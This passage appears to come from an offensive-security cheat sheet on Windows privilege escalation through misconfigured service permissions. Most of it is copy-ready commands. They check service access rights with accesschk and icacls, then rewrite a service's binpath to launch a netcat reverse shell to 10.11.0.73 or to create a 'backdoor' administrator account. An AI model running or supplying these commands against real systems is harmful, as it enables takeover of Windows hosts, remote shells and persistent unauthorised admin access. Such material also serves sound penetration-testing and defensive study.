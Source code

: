 Alternatively you can use the Metasploit exploit : `exploit/windows/local/service_permissions`

Note to check file permissions you can use `cacls` and `icacls`
> icacls (Windows Vista +)    
> cacls (Windows XP)

You are looking for `BUILTIN\Users:(F)`(Full access), `BUILTIN\Users:(M)`(Modify access) or  `BUILTIN\Users:(W)`(Write-only access) in the output.

### Example with Windows XP SP1

```powershell
# NOTE: spaces are mandatory for this exploit to work !
sc config upnphost binpath= "C:\Inetpub\wwwroot\nc.exe 10.11.0.73 4343 -e C:\WINDOWS\System32\cmd.exe"
sc config upnphost obj= ".\LocalSystem" password= ""
sc qc upnphost
sc config upnphost depend= ""
net start upnphost
```

If it fails because of a missing dependency, try the following commands.

```powershell
sc config SSDPSRV start=auto
net start SSDPSRV
net stop upnphost
net start upnphost

sc config upnphost depend=""
```

Using [`accesschk`](https://web.archive.org/web/20080530012252/http://live.sysinternals.com/accesschk.exe) from Sysinternals or [accesschk-XP.exe - github.com/phackt](https://github.com/phackt/pentest/blob/master/privesc/windows/accesschk-XP.exe)

```powershell
$ accesschk.exe -uwcqv "Authenticated Users" * /accepteula
RW SSDPSRV
        SERVICE_ALL_ACCESS
RW upnphost
        SERVICE_ALL_ACCESS

$ accesschk.exe -ucqv upnphost
upnphost
  RW NT AUTHORITY\SYSTEM
        SERVICE_ALL_ACCESS
  RW BUILTIN\Administrators
        SERVICE_ALL_ACCESS
  RW NT AUTHORITY\Authenticated Users
        SERVICE_ALL_ACCESS
  RW BUILTIN\Power Users
        SERVICE_ALL_ACCESS

$ sc config <vuln-service> binpath="net user backdoor backdoor123 /add"
$ sc config <vuln-service> binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"
$ sc stop <vuln-service>
$ sc start <vuln-service>
$ sc config <vuln-service> binpath="net localgroup Administrators backdoor /add"
$ sc stop <vuln-service>
$ sc start <vuln-service>
```
